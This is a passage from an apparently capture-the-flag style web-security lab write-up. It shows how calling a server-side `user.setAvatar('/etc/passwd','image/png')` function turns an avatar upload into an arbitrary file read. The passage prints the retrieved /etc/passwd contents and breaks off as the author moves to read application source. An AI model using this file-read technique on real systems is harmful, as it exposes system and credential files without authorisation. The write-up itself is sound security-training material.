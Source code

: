 Since this function is part of the object `User` let's just try this when we changed our preferred name, and instead of `user.nickname` make it `user.setAvatar()`.

![Pasted_image_20250127093003](https://github.com/user-attachments/assets/98ce8096-4da7-4b4e-8928-912c22d9aa47)

Based on this error we can conclude that the function works here as well, but we haven't passed two of the arguments that it expects.

Let's try to put the file first at `/etc/passwd` with the image mime type.

`user.setAvatar('/etc/passwd','image/png')`

Then when I load the comment that I posted, I see a link with a `broken image as avatar`, but let's copy the link to the avatar and make a `GET` request to it.

It downloaded the file, which contains the `/etc/passwd` content.

```shell
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:106:107:MySQL Server,,,:/nonexistent:/bin/false
```

From one of the errors above, also the location of the `User` function got revealed, so let's try to read that one.

This, by sending a request to change the avatar with the following body:
